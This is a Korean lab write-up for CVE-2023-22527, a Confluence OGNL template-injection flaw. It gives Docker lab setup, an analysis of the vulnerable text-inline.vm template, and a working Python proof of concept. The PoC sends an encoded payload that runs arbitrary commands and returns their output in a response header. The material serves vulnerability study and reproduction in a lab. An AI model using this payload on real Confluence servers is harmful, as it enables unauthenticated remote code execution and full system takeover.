 # CVE-2023-22527

**Author** : 6반 김명규

**github** : https://github.com/rlaaudrb1104/kr-vulhub/tree/main/Confluence/CVE-2023-22527

**Pull Requests** : https://github.com/gunh0/kr-vulhub/pull/234

## 개요

- **CVE ID**: CVE-2023-22527
- **공개일**: 2024년 1월 16일
- **심각도**: CVSS 10.0 (Critical)
- **영향받는 제품**: Confluence Data Center 및 Server (버전 8.0.x ~ 8.5.3)
- **취약점 유형**: 템플릿 인젝션을 통한 OGNL(Object-Graph Navigation Language) 인젝션
- **공격자 요구 조건**: 인증되지 않은 원격 공격자
- **영향**: 임의의 시스템 명령 실행 및 전체 시스템 제어 가능

## 환경 구축

다음 명령을 실행하여 Confluence Server 8.5.3을 시작합니다.

```bash
docker compose up -d
```

`http://localhost:8090` 에 접근하면 설치 가이드가 표시됩니다. "평가판 설치"를 선택하면 라이선스 키를 입력하라는 메시지가 표시됩니다. Atlassian에서 Confluence Server 테스트 인증서를 신청해야 합니다.

![image.png](image_01.png)

데이터베이스 구성 페이지에서 다음과 같이 입력합니다.

- **Hostname** : db
- **Port** : 5432
- **Database name** : confluence
- **Username** : postgres
- **Password** : postgres

![image.png](image_02.png)

**Example Site 클릭**

![image.png](image_03.png)

**Manage users and groups within Confluence 클릭**

![image.png](image_04.png)

**admin 계정 생성**

![image.png](image_05.png)

**환경 구축 완료**

![image.png](image_06.png)

## 원인 분석

해당 취약점은 Confluence의 템플릿 파일인 text-inline.vm에서 사용자 입력을 적절히 검증하지 않고 OGNL 표현식을 평가함으로써 발생합니다. 

**취약한 코드(text-inline.vm)**

```java

#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
#if( !$labelValue )
    #set( $labelValue = $parameters.label )
#end

#if (!$parameters.id)
    #set( $parameters.id = $parameters.name)
#end

<label id="${parameters.id}-label" for="$parameters.id">
$!labelValue
#if($parameters.required)
    <span class="aui-icon icon-required"></span>
    <span class="content">$parameters.required</span>
#end
</label>

#parse("/template/aui/text-include.vm")
```

이 코드는 `$parameters.label` 의 값을 `getText` 함수에 전달하고, 그 결과를 `$stack.findValue`를 통해 평가합니다. 따라서 `$parameters.label`에 악의적인 OGNL 표현식을 포함시키면 해당 표현식이 서버 측에서 실행되어 임의의 코드가 실행될 수 있습니다.

## POC

```python
import requests
import sys

cmd = sys.argv[1]

url = "http://localhost:8090/template/aui/text-inline.vm"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}
data = r"label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({'" + cmd + "'}))"

r = requests.post(url, headers=headers, data=data)

if (r.headers.get("X-Cmd-Response")):
    print("[+] exploit success")
    print(r.headers.get("X-Cmd-Response"))
else:
    print("No response")
```

위 코드는 명령어를 인자로 받아 취약한 Confluence 인스턴스에 POST 요청을 보내고, 실행 결과를 X-Cmd-Response 헤더에서 출력합니다. 

### POC 실행

```bash
python poc.py [cmd 명령어]
```

### 실행결과

![image.png](image_07.png)

![image.png](image_08.png)

